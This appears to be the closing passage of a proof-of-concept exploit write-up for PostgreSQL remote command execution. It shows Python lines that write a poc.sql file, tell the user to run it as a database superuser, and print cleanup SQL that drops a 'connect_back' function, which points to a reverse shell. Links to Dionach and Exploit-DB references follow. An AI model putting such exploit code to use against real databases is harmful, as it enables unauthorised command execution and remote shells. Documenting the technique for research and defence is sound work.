 ```python
    sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

## References

- [https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
- [https://www.exploit-db.com/papers/13084](https://www.exploit-db.com/papers/13084)
